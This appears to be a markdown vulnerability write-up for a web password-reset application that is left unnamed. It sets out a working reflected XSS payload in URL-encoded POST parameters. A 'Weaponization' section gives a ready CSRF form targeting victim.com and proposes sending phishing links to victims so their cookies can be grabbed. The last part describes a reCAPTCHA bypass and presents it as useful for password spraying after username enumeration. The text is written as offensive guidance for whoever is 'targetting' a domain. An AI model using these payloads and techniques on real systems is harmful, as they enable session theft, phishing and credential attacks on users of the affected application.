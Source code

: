 I was unable to view the version of this application. However, here is a list of vulnerabilities for the application:

## Reflected XSS

I found 2 XSS Vulnerabilites on the following URLs:

```
PasswordReset/ChangePass/ChangeThePass
PasswordReset/Reset/Authenticate
```

You may use the following payload as a POST request to the URL to reflect the contents of recaptcha-response. Please change the domain name to the domain you are targetting.

```
command=Next&Username=%24dc1&DomainName=xxxx.xxxx&ReCaptchaPublicKey=6LxOW5_v5AH39Tex8cBG4b57&g-recaptcha-response=%3c%73%76%67%20%6f%6e%6c%6f%61%64%3d%61%6c%65%72%74%28%31%29%3e&HomeUrl=%2FPasswordReset&X-Requested-With=XMLHttpRequest
```

## Weaponization

To abuse these POST Request Reflected XSS, you may pair it with a CSRF attack.

Create a page on your domain that you control with the following contents:
- Note: Change the form action URL to the target, and DomainName variable.

```js
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://victim.com/PasswordReset/Reset/Authenticate" method="POST">
      <input type="hidden" name="command" value="Next" />
      <input type="hidden" name="Username" value="&#36;dc1" />
      <input type="hidden" name="DomainName" value="ad&#46;&#46;" />
      <input type="hidden" name="ReCaptchaPublicKey" value="6LcgSVkaAAdOW5&#95;v5A19Tgfx68cB5b57" />
      <input type="hidden" name="g&#45;recaptcha&#45;response" value="<PAYLOAD>" />
      <input type="hidden" name="HomeUrl" value="&#47;PasswordReset" />
      <input type="hidden" name="X&#45;Requested&#45;With" value="XMLHttpRequest" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Anything in the recaptcha response get's reflected. So you will send a phishing link to your victim to your website which will redirect the post request to the website, thus grabbing it's cookies.

I will leave it up to your imagination to do what you'd like with your payload. :)

## Recaptcha Bypass

Create a Login request, capture it in Burpsuite. Change the password or username in the post request and re-send it. Additionally, you may change the re-captcha response to whatever you'd like, meaning the server doesn't actually check it. This is great for password spraying for once you've done username enumeration.

